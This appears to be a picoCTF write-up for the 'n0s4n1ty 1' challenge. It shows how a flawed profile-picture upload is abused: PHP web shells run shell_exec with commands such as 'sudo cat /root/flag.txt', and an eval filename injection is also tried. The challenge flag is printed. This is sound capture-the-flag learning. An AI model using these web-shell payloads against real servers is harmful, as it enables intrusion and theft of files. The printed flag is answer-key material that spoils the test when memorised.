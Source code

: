 <h1>n0s4n1ty 1</h1>

From: https://play.picoctf.org/practice/challenge/482

Author: Prince Niyonshuti N.

Description: A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the /root directory.

Tags: Easy, Web Exploitation, picoCTF2025, browser_webshell_solvable
---

<h2>General functionality</h2>
Upon launching the instance, the user is prompted to upload a profile picture via the following interface on the website:

![image](https://github.com/user-attachments/assets/c9f1df2a-a2ee-4b48-893e-25a27dea6eb4)

When the picture is uploaded, a confirmation string is returned in a basic html page called /upload.php

![image](https://github.com/user-attachments/assets/48dfad7b-0c32-47dc-9c5e-fb9faa12ee4c)

The html file for the page reveals what I understand to be the image loading and previewing script:

![image](https://github.com/user-attachments/assets/c2fb1ec3-f285-469c-b738-e3c08e3457fd)

<h2>Initial Thoughts</h2>

So, we know that PHP is in use by the URL after submitting the image. We also know that the name of the file uplaoded is returned to us in a confirmation page. We might be able to inject script to this system by creating a specific file name.

We will aim for remote code execution, since this may allow us to retrieve the contents of files stored in the root of the system.

From: https://www.imperva.com/learn/application-security/php-injection/
__"RCE happens when a threat actor uploads code into your website and executes it. Typically, the source of the issue is a PHP bug that accepts user input and then evaluates it as PHP code. For example, threat actors can exploit a RCE vulnerability to create a file that contains a malicious script, designed to let the actor gain access to the target website."__

<h2>Experimentation</h2>

Sending filename: `;phpinfo();`
- returns: `The file ;phpinfo(); has been uploaded Path: uploads/;phpinfo();`

Sending filenmae: `<?php eval ("echo ".$REQUEST["uploads"].";"); ?>`
- returns `The file <?php eval (%22echo %22.$REQUEST[%22uploads%22].%22;%22); ?> has been uploaded Path: uploads/`

This means that quotation marks are being replaced with "%22". This might mean that the filename we have sent is being parsed via rawurlencode() as per https://www.php.net/manual/en/function.rawurlencode.php which describes the function as:
__"Returns a string in which all non-alphanumeric characters except -_.~ have been replaced with a percent (%) sign followed by two hex digits. This is the encoding described in » RFC 3986 for protecting literal characters from being interpreted as special URL delimiters, and for protecting URLs from being mangled by transmission media with character conversions (like some email systems)."__

When I try to go the url after uploading my image... `http://standard-pizzas.picoctf.net:62426/uploads/%3C?php%20eval%20(%22echo%20%22.$REQUEST[%22uploads%22].%22;%22);%20?%3E`

We get a URL not found error, but also the text: `Apache/2.4.54 (Debian) Server at standard-pizzas.picoctf.net Port 62426` which might be a clue as to the available vulnerabilties.

After trying a few more injection types with the file name, I gave up and started prodding the other type of input santization - whether the file being uploaded is actually an image.

I prompted chat GPT for a mockup html and JS injection payload to see whether this is an avenue I should pursue.

Sending the following file and navigating to its path in the url...: 
```
<!-- test.html -->
<script>alert('XSS via HTML file');</script>
```
- returns:

![image](https://github.com/user-attachments/assets/c0b25a42-c7c4-4f6a-84d2-4ce213cd0cab)

This shows that its possible to get new HTML and Javascript onto the server via the file upload.

<h2>Exploring remote execution</h2>

After some further experimentation, I created a .php file with the code `<?php phpinfo(); ?>`. When I then navigated to that page on the server, many details about the installation were revealed. Some interesting ones have been noted below:

`System 	Linux challenge 6.8.0-1024-aws #26-Ubuntu SMP Tue Feb 18 17:22:37 UTC 2025 x86_64 `

`PHP API 	20190902`

`Apache Version 	Apache/2.4.54 (Debian)`

`Server Administrator 	webmaster@localhost`

`Server Root 	/etc/apache2`

`PHP Version 	7.4.33`

`cURL support 	enabled`

`cURL Information 	7.74.0`

`PWD 	/challenge`

From https://www.php.net/manual/en/function.shell-exec.php I took an example for shell execution code and modified it to show all files in an active directory.
Sending:
```
<?php
$output = shell_exec('ls -la');
echo "<pre>$output</pre>";
?>
```
- returns:

![image](https://github.com/user-attachments/assets/af4ae45e-da96-4134-ae48-688baec353a1)

It seems that, I can execute shell code, and see list the files in the current directory.

I wasn't able to shift directories via cd, but instead I can change the ls command to different directory using this payload
```
<?php
$output = shell_exec('ls /root -l');
echo "<pre>$output</pre>";
?>
```
However, this returns a blank page, how interesting...

with only specify the / directory, I can see the file structure for the machine:

![image](https://github.com/user-attachments/assets/543f62ec-0f89-440f-86e3-709b57bde680)

When sending the this command with `ls -la` command, we can see the priviliges for the different directories, notice that root doesn't have many permissions

![image](https://github.com/user-attachments/assets/f8f82b2b-abd2-4869-a107-506b34554c23)

from: https://linuxhandbook.com/linux-file-permissions/ this means that only an administrator can view this directory:

![image](https://github.com/user-attachments/assets/eb1aabfa-1dc3-4636-9a92-c1d7aeb56c61)

modifying the code to be:
```
<?php
$output = shell_exec('sudo ls /root -l');
echo "<pre>$output</pre>";
?>
```
- returns:

![image](https://github.com/user-attachments/assets/22230c0f-b698-485f-9790-7de542fb6364)

Cool! we can see the flag!

lets try the same shell code, but cat the file directly with the full path.
```
<?php
$output = shell_exec('sudo cat /root/flag.txt');
echo "<pre>$output</pre>";
?>
```
returns:

![image](https://github.com/user-attachments/assets/72047e65-403e-4cd0-bc23-2453883970c7)

__`picoCTF{wh47_c4n_u_d0_wPHP_d698d800}`__

Whoopee!





Applications used during CTF:

- Kali Linux

- Mozilla Firefox

- Visual Studio Code


Core sources of information:

Imperva: https://www.imperva.com/learn/application-security/php-injection/
  - Overview of PHP injection

PHP: https://www.php.net/manual/en/function.shell-exec.php
  - Documentation for shell_exec()

Linux Handbook: https://linuxhandbook.com/linux-file-permissions/
  - Guides for linux file structure and permissions

ChatGPT: https://chatgpt.com/
  - Review of JS code in footer and creation of initial html payload to test remote execution, revealing potential avenues for exploitation








